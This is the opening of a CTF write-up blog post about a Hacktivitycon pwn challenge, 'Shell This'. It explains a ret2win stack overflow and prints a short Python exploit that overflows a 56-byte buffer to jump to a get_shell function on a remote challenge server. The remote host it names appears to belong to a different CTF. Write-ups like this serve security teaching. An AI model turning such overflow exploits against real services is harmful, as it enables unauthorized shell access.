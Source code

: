 ```yaml
---
layout:     post
title:      "Hacktivitycon - Pwn challenges"
subtitle:   "Write-Up"
date:       2020-08-01 
author:     "D4mianwayne"
img:       "/img/banner/hacktivity.png"
tag:      pwn, roppy, ret2dlresolve
category: CTF writeup
---
```



I played this CTF mainly because I was chilling out and wanted to try out some challenges from the CTF and since `Faith` was the author of some challenges I wanted to try those out. I managed to do the following challenges:-


# Shell This

We were given the source code and the binary attached, this was simple ret2win attack, since the only protection the binary had was `NX Enabled` which means that no shellcode stuff, although we had a function named `get_shell` which does `execve("/bin/sh", 0, 0)`.

### Finding offset

Usually I had to go with gef's `pattern create` or pwntools's `cyclic` but using radare2:-

```r
[0x004005a0]> pdf @sym.vuln
            ; CALL XREF from main @ 0x400729
┌ 45: sym.vuln ();
│           ; var char *s @ rbp-0x30
│           0x004006e7      55             push rbp                    ; shellthis.c:14
│           0x004006e8      4889e5         mov rbp, rsp
│           0x004006eb      4883ec30       sub rsp, 0x30

-- snip --
```

Since the local variable which is taking our input is of size `rbp - 0x30`, we can then add 8 bytes more to it to get the offset to RIP.

> When the number of local variables would be more than 1, use `pattern create` from gef.

Here's the exploit:-

```py
from roppy import *

p = remote("chal.duc.tf", 30002)
elf = ELF("shellthis")

payload = b"A"*56
payload += p64(elf.function("get_shell"))

p.sendlineafter(": ", payload)
p.interactive()
```
